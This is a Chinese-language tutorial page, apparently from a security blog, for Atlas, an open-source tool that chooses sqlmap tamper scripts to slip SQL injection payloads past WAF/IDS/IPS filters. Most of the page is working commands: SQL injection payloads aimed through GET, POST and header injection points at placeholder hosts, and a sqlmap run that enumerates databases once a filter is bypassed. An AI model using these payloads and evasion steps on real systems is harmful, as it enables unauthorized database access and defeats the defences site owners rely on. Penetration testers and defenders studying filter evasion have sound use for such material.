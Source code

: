 # Atlas修改SQLMap tampers 绕过WAF/IDS/IPS

**Atlas**是一个开源工具，可以修改sqlmap tampers 绕过WAF / IDS / IPS，该工具基于返回的状态码。

### Atlas安装

```text
git clone https://github.com/m4ll0k/Atlas.git atlas
cd atlas
python atlas.py # python3+
```

![](https://www.ddosi.com/wp-content/uploads/2020/06/01-3-1024x478.png)

![](https://www.ddosi.com/wp-content/uploads/2020/06/00-6-1024x360.png)

### 使用

```text
python atlas.py --url http://site.com/index.php?id=Price_ASC --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

**注入点（带`%%inject%%`）：**

#### get:

```text
python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

#### post:

```text
python atlas.py --url http://site.com/index/id/ -m POST -D 'test=%%10%%' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

#### headers:

```text
python atlas.py --url http://site.com/index/id/ -H 'User-Agent: mozilla/5.0%%inject%%' -H 'X-header: test' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

#### 连接tampers:

```text
python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --concat "equaltolike,htmlencode" --random-agent -v
```

获取tampers列表：

```text
python atlas.py -g
```

### 例

1. 运行SQLMap：

```text
python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3
```

![](https://www.ddosi.com/wp-content/uploads/2020/06/02-3-1024x107.png)

`Price_ASC') AND 8716=4837 AND ('yajr'='yajr` 被WAF / IDS / IPS阻止，现在尝试使用Atlas：

```text
python atlas.py --url 'http://site.com/index.php?id=Price_ASC' --payload="') AND 8716=4837 AND ('yajr'='yajr" --random-agent -v
```

![](https://www.ddosi.com/wp-content/uploads/2020/06/03-1024x129.png)

在此刻：

```text
python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3 --tamper=versionedkeywords,...
```

### 项目地址

GitHub [https://github.com/m4ll0k/Atlas](https://github.com/m4ll0k/Atlas)

